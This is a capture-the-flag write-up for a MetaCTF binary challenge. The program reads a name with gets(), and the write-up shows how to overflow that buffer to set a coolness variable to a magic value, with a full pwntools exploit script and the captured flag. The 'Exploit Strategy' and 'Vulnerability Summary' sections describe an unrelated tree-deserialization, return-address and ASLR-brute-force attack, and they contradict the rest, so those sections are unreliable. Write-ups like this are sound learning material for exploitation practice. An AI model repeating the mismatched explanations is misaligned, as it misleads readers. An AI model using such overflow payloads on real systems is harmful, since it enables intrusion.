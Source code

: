 # How Cool Are You? - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/HowCoolAreYou.gif)

---

## Challenge Summary

This program calculates a random "coolness" score for the user and asks for their name. It uses the unsafe `gets()` function to read the username, which allows a buffer overflow vulnerability.

To get the flag, you need to overwrite the `your_estimated_coolness` variable’s value with the magic number `1500000001`. This will trigger the special condition that prints the flag stored in the environment variable `FLAG`.

The main exploit vector is a classic **stack-based buffer overflow** via the `gets()` call, allowing you to overwrite adjacent variables on the stack.

## Binary Information

```bash
$ file chal
```

![Alt text](img/2.png)

```bash
$ pwn checksec chal
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Using CLion, we can easily inspect the program logic and identify the vulnerability:

### Key Observations:

- **User input is read using `gets(your_name);`**, which is an unsafe function that **does not perform bounds checking**. This allows overflowing the 64-byte `your_name` buffer.

- The next variable on the stack after `your_name` is `your_estimated_coolness` — an `int` that determines if the flag is printed.

- The **coolness value is assigned before the `gets()` call**, which means a crafted input can overwrite it with a specific value: `1500000001`.

- The program checks for an **exact match** with that value to reveal the flag via `getenv("FLAG")`.

### Conclusion:

CLion’s variable view and stack layout help visualize the **proximity between the buffer and the target variable**, making it clear that a **classic stack buffer overflow** enables control over the coolness score.

---

## Exploit Strategy

Send a deeply nested, sparse tree string that causes the program to allocate a smaller buffer than needed. This triggers out-of-bounds writes on the stack, allowing partial overwrite of the return address. By placing specific characters at precise positions, the attacker overwrites the lower bytes of the return address to redirect execution to the hidden debug_shell() function. ASLR is bypassed by brute-forcing the unknown bits of the address, requiring multiple attempts to successfully gain a shell.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template chal --host kubenode.mctf.io --port 30005
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30005)

env_vars = {
        "FLAG":"MetaCTF{dummy_flag}"
}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env=env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 76
payload = flat (
        b'A' * offset,
        p64(0x59682f01)
)
io.sendline(payload)
io.recvuntil(b"Oh, right, here's the flag: ")
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{oh_w0w_y0ur3_pr3tty_c00l_aft3r_a11}
```
